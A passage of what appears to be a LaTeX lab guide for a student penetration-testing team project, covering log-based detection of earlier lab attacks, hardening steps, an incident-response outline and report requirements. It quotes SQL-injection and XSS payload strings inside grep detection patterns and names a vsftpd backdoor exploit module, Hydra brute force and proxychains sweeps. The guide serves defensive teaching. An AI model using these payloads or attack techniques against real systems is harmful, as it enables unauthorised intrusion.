ran \texttt{exploit/unix/ftp/vsftpd\_234\_backdoor}. Whether or not that specific
signature is present, \texttt{/var/log/syslog} on the target shows the FTP service
accepting the crafted username, and \texttt{who -a}/process listings show the
unexpected shell session --- this is the same access Bruno confirmed with
\texttt{whoami}/\texttt{id} in Task 6, now shown from the defender's side.
\end{expectbox}

\subsection{Task 7 --- Web application attack evidence}
Because DVWA runs as a Docker container (\emph{Lab Network Configuration},
Section~\ref{sec:pc3}), its request log is read via \texttt{docker logs}, not a host
file path.

\begin{cmdbox}[Grep the DVWA container log for payload patterns]
\begin{cmdverb}
sudo docker logs dvwa 2>&1 | grep -iE "union|select|<script>|or 1=1|or '1'='1'"
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The log lines show the literal SQLi (\texttt{' OR '1'='1}) and/or XSS
(\texttt{<script>alert('XSS')</script>}) payloads exactly as Bruno submitted them in
Task 7, each on a request line with a timestamp and the requesting IP
(\texttt{192.168.50.100}). This is direct, literal evidence --- no signature matching
required, the payload is the log entry.
\end{expectbox}

\subsection{Task 8 --- Credential attack evidence}
\begin{cmdbox}[Count DVWA brute-force attempts by request volume]
\begin{cmdverb}
sudo docker logs dvwa 2>&1 | grep -c "vulnerabilities/brute"
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}[Count and rank failed SSH logins on the Metasploitable target]
\begin{cmdverb}
grep "Failed password" /var/log/auth.log | tail -n 20
grep "Failed password" /var/log/auth.log | \
  awk '{print $(NF-3)}' | sort | uniq -c | sort -rn
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The DVWA request count (often hundreds within seconds) is itself the indicator --- no
legitimate user submits a login form that fast. The \texttt{auth.log} grep returns one
``Failed password'' line per Hydra attempt against SSH, and the ranked count confirms
\texttt{192.168.50.100} as the single source responsible for nearly all of them,
immediately followed by one successful ``Accepted password'' line once Hydra finds the
weak credential.
\end{expectbox}

\subsection{Tasks 9/10 --- Privilege escalation and lateral movement}
\begin{cmdbox}[Confirm the escalation and check for any lateral-movement attempt]
\begin{cmdverb}
# on the target: shell/command history left behind by Bruno's escalation steps
cat ~/.bash_history 2>/dev/null | tail -n 30

# on pfSense: Status > System Logs > Firewall, filtered to source 192.168.50.40,
# confirms whether the Task 10 proxychains sweep was permitted or blocked by
# rule 5 of the ACL (Lab Network Configuration, Section 10.2)
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{.bash\_history} (if not cleared) shows the \texttt{sudo -l}/\texttt{find ...
-perm -4000}/\texttt{searchsploit} commands from Task 9 in order. The pfSense firewall
log is the key piece of evidence for Task 10: it should show the lateral
\texttt{proxychains} sweep either passing only within \texttt{Target\_Hosts} (rule 4)
or being blocked and logged everywhere else (rule 5) --- confirming the segmentation
held even from an already-compromised host.
\end{expectbox}

\subsection{Packet-level corroboration (optional, any task)}
For any of the above, a raw packet capture adds a second, independent evidence source
alongside the log/alert evidence.

\begin{cmdbox}[Live capture and signature-based filtering]
\begin{cmdverb}
# start capture on the bridged sensor interface
# (confirm the name first with: ip -brief addr show)
sudo tshark -i eth0 -w capture.pcap

# afterward, filter for the same window/signature being documented
tshark -r capture.pcap -Y "http.request or tcp.flags.syn==1"
# Wireshark GUI filter bar equivalent:
# ip.addr==192.168.50.30 and tcp.flags.syn==1
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
The filtered capture isolates the SYN bursts (Task 2/3) and HTTP requests (Task 7)
down to individual packets, timestamped to line up with the \texttt{eve.json} alerts
and target-side log entries already gathered --- three independent sources agreeing on
the same timeline is what the report's Evidence section should present per finding.
\end{expectbox}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- record walking the full alert timeline (11.1), then narrate each
narrower query (11.2--11.6) as evidence for its matching task. \textbf{SCREENSHOT} ---
the full timeline output, and one filtered query result per task (2/3, 6, 7, 8, 9/10).
\end{notebox}

\clearpage

% ===================== TASK 12 =====================
\section{Task 12 --- Security Hardening \& Incident Response (5 marks)}
\textbf{Runs on:} \marshall\ (pfSense rule, PC1); \fahdil\ (workstation hardening,
PC2); \amina\ (findings list, PC5). \quad\textbf{Goal:} produce the remediation plan
built from everything found in Tasks 5--11.

\begin{bluebox}
Blue Team closes the loop: every confirmed finding from Task 5 (OpenVAS) and every
successful attack path from Tasks 6--10 gets a specific, named fix here, not a generic
``patch everything'' statement --- this is what turns the assessment into an
actionable report rather than just a list of scary findings.
\end{bluebox}

\begin{steps}
\item For each vulnerability/finding, write a specific hardening step (patch version,
  disable unused service, enforce password policy).
\end{steps}

\begin{cmdbox}[Demonstrate patch management as evidence of remediation]
\begin{cmdverb}
sudo apt update && sudo apt upgrade -y
\end{cmdverb}
\end{cmdbox}

\begin{steps}
\item Add a pfSense firewall rule addressing a Task 5/6 finding (e.g.\ restrict access
  to the vulnerable service to only the hosts that legitimately need it) --- GUI step
  under \textbf{Firewall} $\to$ \textbf{Rules} $\to$ \textbf{LAN} $\to$ \textbf{Add},
  following the same ordered-rule method used in \emph{Lab Network Configuration},
  Section 10. Screenshot the rule as configured.
\end{steps}

\begin{cmdbox}[Optional host-level firewall hardening on a Linux target]
\begin{cmdverb}
sudo ufw allow from 192.168.50.0/24 to any port 22
sudo ufw enable
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{apt upgrade} shows the target packages moving to patched versions (re-run the
Task 3 service scan afterward to confirm the version string changed). The new pfSense
rule appears in \textbf{Diagnostics} $\to$ \textbf{States} the next time that service is
reached, with the narrower source/destination match now visible. \texttt{ufw status}
confirms the host-level rule is active.
\end{expectbox}

\begin{steps}
\item Write a brief incident response workflow: detection $\to$ containment $\to$
  eradication $\to$ recovery $\to$ lessons learned, tied back to the Task 11 detection
  evidence (which Suricata alert / log entry triggered each stage).
\end{steps}

\begin{notebox}[Video/Screenshot]
\textbf{VIDEO} --- optional: a short narrated walkthrough of the pfSense rule being
added, plus the remediation plan on screen. \textbf{SCREENSHOT} --- the pfSense rule
configuration screen, and the completed hardening/IR plan document.
\end{notebox}

\clearpage

% ===================== TASK 13 =====================
\section{Task 13 --- Professional Penetration Testing Report (11 marks)}
\textbf{Runs on:} whole team (compilation and writing, no new hands-on-keyboard work).
\quad\textbf{Goal:} assemble everything above into the final deliverable.

\begin{steps}
\item Structure the report: Executive Summary, Scope, Methodology (reference
  PTES/NIST SP 800-115/OWASP Testing Guide as stated in the exam), Findings, Risk
  Ratings, Evidence, Business Impact, Recommendations, Conclusion.
\item Pull in the Network Architecture Diagram (\emph{Lab Network Configuration},
  Figure 1), Asset Inventory (Task 2), Vulnerability Assessment Report (Task 5), Risk
  Register (Task 4/12), and Security Hardening Plan (Task 12) as clearly labeled
  sections or appendices.
\item Insert the best screenshot per task into the relevant findings section, captioned
  with the task number.
\item Proofread for the overlay requirement across all video evidence before final
  submission --- spot-check timestamps in at least 3 videos.
\end{steps}

\begin{notebox}
No new video is required for this task itself, since it is the compiled write-up of
Tasks 1--12.
\end{notebox}

\begin{expectbox}
\textbf{SCREENSHOT} --- final report title page and table of contents, confirming all
required sections/appendices are present, for your own submission checklist.
\end{expectbox}

\clearpage

% ===================== FINAL CHECKLIST =====================
\section{Final Submission Checklist}

\begin{itemize}[nosep]
\item Professional Penetration Testing Report (PDF)
\item Network Architecture Diagram
\item Asset Inventory
\item Vulnerability Assessment Report
\item Risk Register
\item Security Hardening Plan
\item Screenshots supporting every task (organized by Task-02 \ldots Task-13 folders)
\item One video per task (organized the same way), each showing name, Student ID,
  hostname, username, and live date/time throughout
\item Source files where applicable (scan exports, Wireshark \texttt{.pcap}, scripts
  used)
\end{itemize}

\begin{notebox}[Overlay Reminder]
Full legal name, Student ID, hostname, active username, and live system date/time must
be visible on screen for the whole clip. Keep narration continuous --- no cuts.
\end{notebox}

\end{document}
